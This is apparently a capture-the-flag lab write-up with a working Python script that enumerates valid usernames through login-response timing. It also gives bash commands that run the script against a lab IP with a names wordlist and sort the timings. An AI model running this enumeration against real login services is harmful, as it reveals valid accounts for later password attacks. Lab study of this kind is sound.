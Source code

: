 * [Using "nmap"](../notes/nmap.md)

### Exploit

The point of this exercise is to write a Python script to take advantage of the timing difference between trying to log in using a valid vs. invalid username.

```python
#!/usr/bin/python3

import sys
import time
import requests

usernames = open(sys.argv[2], 'r')

for username in usernames.readlines():
	creds = { 
		'username': username.strip(),
		'password': 'invalidPassword!'
	}
	startTime = time.time()
	response = requests.post('http://' + sys.argv[1] + '/api/user/login', json = creds)
	endTime = time.time()
	print(str(endTime - startTime) + "    " + username.strip())

usernames.close()
```

References used while writing this:

* [Opening and Closing Files in Python](https://www.tutorialspoint.com/opening-and-closing-files-in-python)
* [Python - Command Line Arguments](https://www.tutorialspoint.com/python/python_command_line_arguments.htm)
* [Python File readlines() Method](https://www.tutorialspoint.com/python/file_readlines.htm)
* [Quickstart -- Requests](https://docs.python-requests.org/en/latest/user/quickstart/)
* [Calculating Time Difference](https://stackoverflow.com/a/3426953)
* [Python string \| strip()](https://www.geeksforgeeks.org/python-string-strip/)

My general strategy here is to not get too fancy in Python, but rather just to output the time it takes to log in given a particular username and then do the subsequent analysis using normal shell tools.

Saving the above script as `hackernote-user-enum.py` and using the `Names/names.txt` list (which is the shorter -- as suggested -- of the two lists mentioned by the exercise), we create an ordered lists where those usernames that took longest to respond with an error message are listed last:

```bash
chmod +x hackernote-user-enum.py
unbuffer ./hackernote-user-enum.py 10.10.156.141 \
                                   names.txt | \
         tee hackernote-user-enum.out
cat hackernote-user-enum.out | sort -n
```

